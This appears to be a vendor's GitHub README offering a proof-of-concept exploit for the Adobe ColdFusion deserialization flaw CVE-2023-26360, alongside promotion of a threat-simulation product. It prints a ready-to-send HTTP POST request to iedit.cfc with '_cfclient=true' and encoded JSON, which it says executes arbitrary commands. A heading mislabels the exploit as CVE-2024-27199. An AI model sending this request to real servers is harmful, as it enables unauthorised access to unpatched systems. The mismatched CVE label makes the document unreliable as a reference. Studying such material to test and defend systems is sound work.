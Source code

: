 # Adobe ColdFusion CVE-2023-26360 PoC Exploit
CISA released an advisory on a critical vulnerability found in Adobe ColdFusion web servers. The vulnerability allows adversaries to gain initial access to public-facing Adobe ColdFusion web servers. <br><br>
In this repo, Picus provides Proof-of-Concept exploit for the CVE-2023-26360 vulnerability.

Test security controls against the CVE-2023-26360 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-26360 vulnerability exploits for free. No setup or signup required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information check out our blog post: [CVE-2023-26360: Adobe ColdFusion Servers Exploited for Initial Access](https://www.picussecurity.com/resource/blog/cve-2023-26360-adobe-coldfusion-servers-exploited-for-initial-access)


CVE-2023-26360 Proof-of-concept (POC)
----------------------
CVE-2023-26360 is an improper access control vulnerability caused by deserializing untrusted data without proper validation. When an attacker crafts a malicious HTTP request with "_cfclient=true" in the URL, the Adobe ColdFusion server invokes the "convertToTemplateProxy" function and deserializes the malicious JSON input provided by the attacker. Adversaries use this method for different purposes, such as arbitrary code execution, arbitrary file read, and remote code execution. 

The example HTTP POST request below exploits CVE-2023-26360 vulnerability to execute arbitrary commands remotely.

#### Example CVE-2024-27199 Exploit:
```http
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo^&_cfclient=true HTTP/1.1

_variables%3D%7B%22_metadata%22%3A%7B%22classname%22%3A%22%5C..%5Cruntime%5Cwork%5CCatalina%5Clocalhost%5Ctmp%5Chax.tmp%22%7D%2C%22_variables%22%3A%7B%7D%7D
```

Disclaimer
----------
We do not have any disclamer.
